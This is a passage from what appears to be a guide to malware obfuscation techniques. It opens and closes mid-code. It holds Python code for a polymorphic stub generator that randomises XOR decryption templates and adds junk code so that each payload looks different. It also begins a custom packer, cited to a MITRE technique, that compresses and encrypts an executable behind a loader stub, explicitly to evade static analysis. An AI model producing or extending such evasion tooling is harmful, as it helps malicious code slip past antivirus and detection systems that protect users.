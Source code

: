 ```c
}
```

### 1.2 Polymorphic & Metamorphic Code

**Polymorphic**: Same functionality, different signatures
**Metamorphic**: Code rewrites itself with each execution

```python
# Polymorphic encoder example
import random

def generate_polymorphic_stub():
    """Generate unique decryption stub for each payload"""
    templates = [
        "for i in range(len(data)): data[i] ^= {key}",
        "data = bytes([b ^ {key} for b in data])",
        "data = bytearray(x ^ {key} for x in data)",
    ]
    
    key = random.randint(1, 255)
    stub = random.choice(templates).format(key=key)
    
    # Add junk code
    junk = [
        "_ = 1 + 1",
        "import time",
        "x = [i for i in range(10)]"
    ]
    
    return f"{random.choice(junk)}\n{stub}", key

# Each payload gets unique decryption stub
stub, key = generate_polymorphic_stub()
```

### 1.3 Packing & Compression (T1027.002)

Packers compress and encrypt binaries to evade static analysis.

```python
import lzma
from cryptography.fernet import Fernet

def pack_executable(input_exe, output_exe):
    """Custom packer with compression + encryption"""
    
    # 1. Read original executable
    with open(input_exe, 'rb') as f:
        original_data = f.read()
    
    # 2. Compress with LZMA
    compressed = lzma.compress(original_data, preset=9)
    
    # 3. Encrypt with Fernet
    key = Fernet.generate_key()
    cipher = Fernet(key)
    encrypted = cipher.encrypt(compressed)
    
    # 4. Create stub loader
    stub = f'''
import lzma
from cryptography.fernet import Fernet

key = {key}
```